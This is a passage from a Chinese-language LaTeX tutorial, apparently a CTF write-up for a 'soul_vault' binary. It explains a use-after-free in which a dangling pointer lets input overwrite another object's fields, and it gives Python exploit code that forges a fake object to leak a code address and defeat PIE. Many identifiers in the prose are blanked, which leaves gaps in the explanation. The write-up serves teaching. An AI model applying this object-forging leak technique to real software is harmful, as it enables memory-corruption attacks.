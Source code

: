 \begin{keybox}[看到了嗎？]
第 d 步之後， 剛好等於 \textbf{ 的位址}——
那個還懸空指著的舊 Soul。而第 e 步 
就會把我們輸入的內容\textbf{寫進  的每一個欄位}。

\textbf{這就是偽造物件的手法}：不是「找到一個可以寫的地方」，
而是\textbf{讓一個本來要寫進 buffer 的寫入，落到另一個物件的欄位上}。
\end{keybox}

\subsection{第三步：forge \#1 —— 用「讀字串」偷出 PIE}

先把  改造成「一台讀取機」：

\begin{lstlisting}[style=py]
forge1  = b'/bin/sh\x00' + b'\x00' * (0x20 - 8)   # name   (+0x00) = "/bin/sh"
forge1 += p64(s0 + 0x28)                          # memory (+0x20) -> soul2->callback
forge1 += p64(0)                                  # callback(+0x28) = 0（先不要呼叫）
forge1 += p32(0) + p32(0)                         # id, mem_size
assert len(forge1) == 0x38
capture_raw(0x38, b'C', forge1[:-1])              # 0x37 bytes + read_string 自動補的 NUL
\end{lstlisting}

\begin{whybox}[\code{memory = s0 + 0x28} 是什麼意思？]
 是 （也就是剛剛被新 soul 回收的那塊，）。
 就是那個結構的  欄位。

而那個  裡裝的是\textbf{一個程式碼位址}——
 會把  寫進去，
而  就是 ：

\begin{lstlisting}[style=raw]
$ nm soul_vault_patched | grep -E 'stone_callbacks|callback_soul'
0000000000004020 D stone_callbacks
0000000000001289 T callback_soul
\end{lstlisting}

所以  這個位置存著 。
我把  指向它，再用  的
 把它\textbf{當字串印出來}——

\begin{lstlisting}[style=raw]
Memory: \x89\x12\xc1\x5b\x16\x00      <-- 6 bytes，因為第 7 個 byte 是 0x00
\end{lstlisting}

$\Rightarrow$ ，而且驗算  一定成立。
\end{whybox}

